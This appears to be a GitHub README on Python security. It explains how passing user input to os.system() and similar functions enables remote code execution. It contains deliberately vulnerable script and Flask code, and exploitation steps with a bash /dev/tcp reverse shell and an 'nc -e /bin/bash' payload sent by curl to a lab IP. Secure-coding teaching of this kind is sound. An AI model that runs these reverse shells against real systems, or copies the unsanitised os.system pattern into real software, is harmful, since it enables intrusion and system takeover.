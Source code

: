 # Python-Security-Principles
Fundamental concepts and principles on how Python application can be abused to gain remote code execution or be used to perform any type of unattended functionality

Python is an interpreted high-level general-purpose programming language. Python's design philosophy emphasizes code readability with its notable use of significant indentation. A lot of modern web application use python , especially when utilizing API endpoints. It is critical to secure these web application and API endpoints to ensure that the web application behaves as expected

When validating secure code , always examine the code to determine what paramter is used to accept user input , on what route is it mapped to and how the user supplied data gets processed during the web applications execution flow. Never pass input that the user has control over to a paramater that gets wrapped around a dangerous function() that could interact with the underlying OS and execute code. 

The following Python fucntions() can be abused to execute code, exfiltrate data, perform unattended functionality or bypass authentication pages

- os.system()
- eval()
- exec()
- input()
- str.format()
- Pickle()
- Jinja2/Tornado 
- PyYaml 

| Function | Description | Misconfiguration |
| :---: | :---: | :---: |
| os.system() | Python function() that allows the execution of shell commands | If a Web API route accepts user-controlled data that doesn't get escaped and filtered and passes it to os.system(), it will attempt to execute the input received as a shell command, allowing the Web API route paramater to be abused for unintended code execution |

Allows the Python script/program to execute shell commands on the underlying OS. Below is a basic example of how this function() can be used. The function() itself is not evil, but passing unsanitized user input to the function() could be dangerous and lead to code execution. Always ensure to pass data to os.system() that is validated, escaped and required for its intended functionality.

Basic Script - Accepts user input and saves it in the txt variable and then passes the txt variable to os.system()
```
#!/usr/bin/python

import os

txt = input("Enter Command to Execute?: ")
os.system(txt)
```
Another example of a similiar program that is not properly validated. The below code asks for a name , but passes the input to os.system(). This is a basic example of how the context of the program does not match it's functionality. 
```
#!/usr/bin/python

import os

txt = input("What is your name?: ")
os.system(txt)
```
Explioting the above code. Since the entire input variable is send to os.system(), the attacker can just provide a reverse shell one-liner instead of a valid name
```
What is your name?: bash -i >& /dev/tcp/10.10.10.10/9999 0>&1

//Replace IP
//Replace Port
```
The following code accepts user input from the public and passes it to os.system(), allowing the web application to be vulnerable to code execution

Interacting with the web app
```
curl -X POST http://10.10.10.10:5000/api?request=
curl -X POST -d "request=test" http://10.10.10.10:5000/api
```
Vulnerable Web Application
```
#!/usr/bin/python

import os
from flask import Flask, request

app = Flask(__name__)


@app.route("/api", methods=["POST"])
def hackme():
    data = os.system(request.form['request'])
    print(data)
```
Explioting the web app

Payload: nc -e /bin/bash 10.10.5.10 9999 | Can be replaced by any other form of RCE. Ensure to base64 or URL encode the payload

```
curl -x POST -d "request=nc -e /bin/bash 10.10.5.10 9999" http://10.10.10.10:5000/api
```
Web app breakdown:

| Function | Description | 
| :---: | :---: | 
| #!/usr/bin/python | Forcing the web app to use my built in python path |
| import os | Importing the os library to use it's functionality such as calling os.system() |
| Flask | Micro Web Framework Written to run the web application  |
| @app.route | Specifies the internal web app route to the location on the web server where it receives input  |
| /api | The actual route on the web server (Web API Route) |
| POST | Enforces that the route accept only HTTP POST requests |
| data | Variable that stores input the web app receives |
| os.system() | Function that allows the execution of shell commands |
| request | Parameter in the /api route that accepts input via HTTP POST requests |
| print(data) | Print the input received via the web API route , wrapped around os.system() that allows code execution |
